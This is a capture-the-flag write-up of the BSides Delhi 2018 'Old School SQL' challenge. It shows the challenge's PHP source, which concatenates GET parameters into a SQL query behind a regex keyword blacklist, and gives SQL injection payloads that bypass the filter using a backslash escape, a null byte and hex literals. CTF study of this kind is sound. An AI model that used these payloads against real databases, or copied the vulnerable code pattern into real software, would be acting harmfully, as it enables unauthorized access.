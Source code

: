 # BSides-Delhi-CTF-2018-Old-School-SQL

``` 
Being the admin is great
Link(http://35.200.215.237/)
```

# Source Code

```
<?php 
include "./config.php";
include "./flag.php";
error_reporting(0);

$black_list = "/admin|guest|limit|by|substr|mid|like|or|char|union|select|greatest|%00|\'|";
$black_list .= "=|_| |in|<|>|-|chal|_|\.|\(\)|#|and|if|database|where|concat|insert|having|sleep/i";
if(preg_match($black_list, $_GET['user'])) exit(":P"); 
if(preg_match($black_list, $_GET['pw'])) exit(":P"); 


$query="select user from chal where user='$_GET[user]' and pw='$_GET[pw]'"; 

$result = mysql_query($query);
$result = mysql_fetch_array($result);
$admin_pass = mysql_fetch_array(mysql_query("select pw from chal where user='admin'"));
echo "<h1>query : <strong><b>{$query}</b></strong><br></h1>";
if($result['user']) echo "<h2>Welcome {$result['user']}</h2>"; 
if(($admin_pass['pw'])&&($admin_pass['pw'] === $_GET['pw'])){
    echo $flag;
}

highlight_file(__FILE__); 

?>
```

Here the single quote `'` is blocked by php preg_match so first we need to bypass the query 

```
select user from chal where user='\' and pw=';%00'
```
now `and pw=` are consider as a string and we can write our query to get try to get the flag
i try to write the subquery to get the flag but i found that most of the sql keywords are blocked by preg_match. so i tried to pass the HEX format in the query.

```
GET /?user=\&pw=||(0x313D31);%00
```
it works but i did not get flag, as we need the password to print the flag, so we need to apply the brute force to get the flag.



